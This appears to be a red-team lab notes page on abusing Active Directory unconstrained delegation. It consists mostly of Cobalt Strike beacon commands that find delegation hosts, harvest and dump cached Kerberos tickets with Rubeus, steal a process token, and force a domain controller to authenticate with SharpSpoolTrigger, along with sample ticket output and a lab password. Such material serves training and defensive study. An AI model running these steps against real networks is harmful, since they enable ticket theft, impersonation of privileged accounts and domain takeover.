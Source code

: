# Unconstrained Delegation

## Introduction

Delegation allows a user or computer to impersonate another account in order to access resources (such as backend database servers). Practical examples can be found [here](https://learn.microsoft.com/en-us/archive/blogs/autz\_auth\_stuff/kerberos-delegation).

Unconstrained delegation will cache the user's TGT if it interacts with the system. So if we compromise a machine with unconstrained delegation, we can extract any TGT from it's memory and use them to impersonate users.

<mark style="color:yellow;">**Technique**</mark>: If we compromise a computer with unconstrained delegation, we can social engineer a user to interact with it and steal their TGT. We can also just wait for users and harvest TGT's! Interaction can be as simple as `dir \web\c$`

<mark style="color:red;">**Note**</mark>:   Domain Controllers are always permitted for unconstrained delegation.

## Enumerate computers with unconstrained delegation

```shell
beacon> execute-assembly C:\Tools\ADSearch.exe --search 
"(&(objectCategory=computer)(userAccountControl:1.2.840.113556.1.4.803:=524288))" 
--attributes samaccountname,dnshostname
```

## Rubeus triage & monitor

Rubeus triage & monitor will show all tickets that are currently cached. It will show the users LUID. The faster way is just to use monitor.

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe triage
```

```
beacon> execute-assembly C:\Tools\Rubeus.exe monitor /interval:10 /nowrap
```

## Rubeus Dump TGT

From the triage & createnetonly we can dump the TGT

```sh
beacon> execute-assembly C:\Tools\Rubeus.exe dump /luid:<luid-from-triage> /nowrap

beacon> execute-assembly C:\Tools\Rubeus\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe 
/domain:DEV /username:cfoxy /password:Password123! /ticket:blah

[*] Showing process : False
[*] Username        : cfoxy
[*] Domain          : DEV
[*] Password        : Password123!
[+] Process         : 'C:\Windows\System32\cmd.exe' successfully created with LOGON_TYPE = 9
[+] ProcessID       : 1540
[+] Ticket successfully imported!
[+] LUID            : 0x3206fb
```

## Steal Token

We can steal use token with Cobalt Strike's steal\_token.

```
beacon> steal_token 1540

beacon> ls \\dc-2.rotta.lab\c$
```

## Harvest TGT by forcing authentication

We can obtain TGT's for computer accounts by forcing them to authenticate remotely to the unconstrained machine.

## Rubeus monitor

Rubeus' `monitor` command will drop into loop and continuously monitor for and extract new TGT as they get cached.  It's a superior strategy when compared to running triage manually because there's little chance of us not seeing or missing a ticket.

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /interval:10 /nowrap

[*] Action: TGT Monitoring
[*] Monitoring every 10 seconds for new TGTs
```

## SharpSpoolTrigger

Next, run SharpSpoolTrigger.

```
beacon> execute-assembly C:\Tools\SharpSpoolTrigger.exe dc-2.rotta.lab web.rotta.lab
```

Where:

* DC-2 is the "target".
* WEB is the "listener".

Rubeus will then capture the ticket.

```
[*] 9/6/2022 2:44:52 PM UTC - Found new TGT:

  User                  :  dc-2$.rotta.lab
  StartTime             :  9/6/2022 9:06:14 AM
  EndTime               :  9/6/2022 7:06:14 PM
  RenewTill             :  9/13/2022 9:06:14 AM
  Flags                 :  name_canonicalize, pre_authent, renewable, forwarded, forwardable
  Base64EncodedTicket   :

doIFuj[...]lDLklP
```

To stop Rubeus, use the `jobs` and `jobkill` commands.\
